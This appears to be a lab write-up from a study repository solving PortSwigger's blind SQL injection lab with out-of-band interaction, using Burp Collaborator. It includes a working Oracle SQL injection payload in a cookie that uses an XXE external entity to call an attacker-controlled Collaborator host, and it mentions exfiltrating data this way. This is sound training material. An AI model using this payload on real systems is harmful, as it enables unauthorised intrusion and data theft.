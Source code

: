# Lab 13: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

> **Note**
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 

### **Hint**

You can find some useful payloads on our SQL injection cheat sheet.

### **Solution**

1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the `TrackingId` cookie.
    
    ![2025-05-22_03-12_1.png](LabImg/2025-05-22_03-12_1.png)
    
    ![2025-05-22_03-13.png](LabImg/2025-05-22_03-13.png)
    
2. First, open Burp Collaborator and click on **Get Started** to generate a unique Burp Collaborator subdomain. Use this subdomain to perform the attack. If the target application is vulnerable, it will trigger a DNS lookup to the Burp Collaborator server. This DNS interaction confirms the presence of the vulnerability.
    
    **Collaborator:** a person who works jointly on an activity or project; an associate.
    
    [Burp Collaborator](../Img/Burp%20Collaborator/Burp%20Collaborator.md)
    
    - Burp Collaborator **Step-by-Step Walkthrough**
        
        ## 🧪 Step-by-Step Tutorial Overview
        
        ### **1️⃣. Access the Lab Environment**
        
        - Open Burp's embedded browser and navigate to the Lab:
        - Click on **"Access the lab"** and log in to your PortSwigger account if prompted. This will launch a deliberately vulnerable shopping website for testing purposes.
        
        ### **2️⃣. Explore the Target Site**
        
        - Within the browser, click on various product pages to generate traffic and populate Burp's HTTP history.
        
        ### **3️⃣. Send a Request to Repeater**
        
        - In Burp Suite, go to the **Proxy > HTTP history** tab.
        - Locate a `GET /product?productId=...` request.
        - Right-click on this request and select **"Send to Repeater"**.
        
        ### **4️⃣. Inject a Collaborator Payload**
        
        - Switch to the **Repeater** tab.
        - In the request headers, find the `Referer` header.
        - Highlight the URL in the `Referer` header, right-click, and choose **"Insert Collaborator payload"**. This action replaces the existing URL with a unique Collaborator subdomain, such as:
            
            `204119i326shak9tnk6k36z8jlahj74r.oastify.com`
            
        - Click **"Send"** to dispatch the modified request to the server.
        
        ### **5️⃣. Poll for Interactions**
        
        - Navigate to the **Collaborator** tab in Burp Suite.
        - Burp automatically polls the Collaborator server every 60 seconds. To check immediately, click **"Poll now"**.
        - If the application processed the payload and made a request to the Collaborator server, you'll see entries indicating DNS or HTTP interactions.
        - Click on an interaction to view detailed information about the request.
        
        ---
        
        ## ✅ Summary
        
        By following these steps, you've:
        
        - Generated a unique Collaborator payload.
        - Inserted the payload into a request to the target application.
        - Detected an out-of-band interaction resulting from the application's processing of the payload.
        
        > This process demonstrates how Burp Collaborator can be used to identify vulnerabilities that don't produce immediate or visible responses, such as blind SSRF.
        > 
    
    ![2025-05-22_03-13_1.png](LabImg/2025-05-22_03-13_1.png)
    
3. Modify the `TrackingId` cookie,
changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows:
    
    ```sql
    TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--
    ```
    
    ![2025-05-22_03-14.png](LabImg/2025-05-22_03-14.png)
    
    ![2025-05-22_03-16.png](LabImg/2025-05-22_03-16.png)
    

1. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified `TrackingId` cookie.
    
    ![2025-05-22_03-22.png](LabImg/2025-05-22_03-22.png)
    
    ![2025-05-22_03-24.png](LabImg/2025-05-22_03-24.png)
    
    ![2025-05-22_03-24_1.png](LabImg/2025-05-22_03-24_1.png)
    

The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator to verify that your payload had indeed 
triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

### **Community solutions**

> [https://youtu.be/-t4cr5uRzzA](https://youtu.be/-t4cr5uRzzA)
>
